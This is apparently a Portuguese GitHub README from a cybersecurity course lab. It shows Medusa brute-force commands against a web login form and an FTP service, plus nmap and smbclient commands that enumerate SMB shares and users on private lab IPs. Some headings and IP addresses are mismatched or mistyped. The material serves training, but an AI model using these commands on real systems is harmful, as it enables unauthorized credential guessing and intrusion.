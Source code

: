 # Ataque de Brute Force de Senhas

Durante o processo de enumeração e ataque, o hacker utiliza diferentes abordagens para identificar vulnerabilidades e obter acesso não autorizado a serviço:


![Logo](https://assets.dio.me/C_w739DMTY1XPvnkcaSY7doWFM9I5MREIuft-gfwJDY/f:webp/h:120/q:80/L3RyYWNrcy83MGI2Y2EwOC0xZDdlLTQxNTctYmI0OC05NmMxMTY0ZmQ3ZTcucG5n)


![Evidência](https://github.com/tiagoas/Desafio-Santander---Ciberseguran-a-2025/blob/main/Keylogger/Dados%20Capturados.png)


# WEB

Escaneando as portas 139 (NetBIOS) e 445
Esse comando está realizando um ataque de força bruta HTTP contra uma página de login web
ocalizada em http://192.168.0.219/login.php, usando a ferramenta Medusa. O objetivo é descobrir 
credenciais válidas (usuário e senha) para acessar o sistema.



```
└─$ medusa -h 192.168.0.219 -U users.txt -P pass.txt -M http \
        -m "PAGE:http://192.168.0.219/login.php" \
        -m "FORM:username=^USER^&password=^PASS^&Login=Login" \
        -m "FAIL=Login failed"
```





# FTP

### Escaneando as portas 139 (NetBIOS) e 445



```
nmap -p 21 192.168.56.101 
```
#### Esse comando está realizando um ataque de força bruta contra o serviço FTP no host 92.168.56.101 usando 
#### a ferramenta Medusa, e filtrando os resultados para mostrar apenas os logins bem-sucedidos.



```
medusa -h 127.0.0.1 -U users.txt -P pass.txt -M ftp | grep SUCCESS

```


# SMB

### Escaneando as portas 139 (NetBIOS) e 445


```
nmap -p 139,445 --script smb-enum-shares,smb-enum-users 168.168.56.101 -Pn
```
#### Tentando listar os compartilhamentos SMB disponíveis no IP 192.168.56.101
#### Usando o usuário msfadmdin (possivelmente um erro de digitação de msfadmin)
#### -L: lista os recursos disponíveis no servidor

```
smbclient -L //192.168.56.101 -U msfadmdin
```
